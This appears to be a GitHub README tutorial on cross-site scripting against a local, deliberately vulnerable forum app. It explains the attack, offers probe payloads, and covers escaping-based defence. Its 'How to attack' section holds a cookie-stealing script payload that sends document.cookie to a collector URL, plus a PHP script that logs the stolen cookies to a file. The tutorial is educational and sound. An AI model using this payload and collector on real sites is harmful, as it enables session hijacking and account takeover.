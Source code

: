 >   This was a repo forked from postShuffle, a forum app written with node.js. It's designed to be
>   single-page (meaning that once the forum initially loads, all UI is controlled
>   by client-side code).

### Overview

Clone this [playground repo](https://github.com/hbxz/web-sec-3-XSS), you can run a local blog server and exploit it's XSS vulnerability, **legally**. 

>   I suggest that you only attack a website in your local machine. 

Use the admin account, (cause the register function is buggy at the moment) you can post a blog, comment on others. Simply put, it is a localhost website that accepts and displays UGC (user generated contents).

If you try to post some plain HTML strings, e.g `<h1>hello world</h1>`  you might find that the post and comment  dose not escape perfectly. There can be some loophole of HTML injection. 

You can try to attack it using some [helpful XSS payload example](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS Injection). I will show you one small example. 

Also check this awesome video: [Cookie Stealing - Computerphile](https://www.youtube.com/watch?v=T1QEs3mdJoc).

### What is XSS

>   Check this [owasp xss artical](https://owasp.org/www-community/attacks/xss/).
>
>   Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted websites. 

Correct me if I'm wrong. My understanding is:

1.  a website has **HTML injection** vulnerability that can lead to **JS injection**

2.  this website presents UGC on other user's browsers

3.  Combining 1 and 2, an attacker can post malicious content that will run on other user's browsers. 
4.  And this malicious content can enjoy the trust and access right as the current website has on target browsers.

This makes cookie stealing possible. E.g: lots of websites use JWT as the passport for authentication. If someone has your JWT, he/she has all your access right. 



### How to attack

-   Identify an XSS endpoint:
    `<script>debugger;</script>`
    
    `<script>console.log('hello JS');</script>`
    
-   stealing cokkie:
    `<script>new Image().src="http://localhost/cookie.php?c="+document.cookie;</script>`

Write the collected data into a file.

```
<?php
$cookie = $_GET['c'];
$fp = fopen('cookies.txt', 'a+');
fwrite($fp, 'Cookie:' .$cookie.'\r\n');
fclose($fp);
?>
```

Here shows when I inject the js code as a post, this blog web page excute it and request a URL with current cokkie:

![image-20200424113844902](xss_tutorial.assets/image-20200424113844902.png)



### How to defend

It starts from HTML injection. So bisic idea is escaping all the HTML content to it's orignal intended format. Performing the appropriate validation and escaping on the server-side is the core of solution.

Also check this [XSS (Cross Site Scripting) Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html).



### Summary

Hey friend. Hope you have fun and get some feeling on "what XSS is". 

>   Please, please, don't get yourself in trouble by having fun illegally. 

Well, it just so happens, my [capstone project](https://github.com/hbxz/capstone-project-sunshine-waiter) also use JWT on access control. I'm the backend guy and responsible for security on all the APIs. You can run it locally and try to crack it. 

If you find any vulnerability, would you mind posting it on the issues so that I can learn from you as well?

Wish have FUN and stay safe!